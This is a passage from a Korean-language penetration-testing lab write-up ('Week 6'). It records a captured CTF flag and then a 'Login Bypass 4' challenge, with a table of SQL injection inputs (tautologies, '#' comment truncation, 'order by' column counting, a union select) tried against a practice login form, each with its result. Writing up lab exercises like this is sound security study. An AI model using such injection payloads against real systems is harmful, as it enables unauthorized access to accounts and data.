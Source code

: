 로그인에 성공하고 플래그를 획득하였다.

<p style="text-align: center;">Flag: <span style="color: green">segfault{<span style="filter: blur(5px);">UniUniONONON</span>}</span></p>

<br>

##### Login Bypass 4

<img src="/data/Penetration%20Testing%20%7C%20Week%206/24.png" alt="Login Bypass 4" style="padding: 0 200px; background-color: white">

링크의 주소로 접속하여 로그인을 시도해 보았다.

| `UserId`                       | `Password` | 결과      |
|--------------------------------|------------|----------|
| `doldol' and '1' = '1`         | `dol1234`  | 로그인 성공 |
| `doldol' or '1' = '1`          | `any`      | 로그인 실패 |
| `doldol' or '1' = '2`          | `dol1234`  | 로그인 성공 |
| `doldol'#`                     | `dol1234`  | 로그인 성공 |
| `doldol'#`                     | `any`      | 로그인 실패 |
| `doldol' order by 2#`          | `dol1234`  | 로그인 성공 |
| `doldol' order by 3#`          | `dol1234`  | 로그인 실패 |
| `' union select 'any', 'any'#` | `any`      | 로그인 실패 |
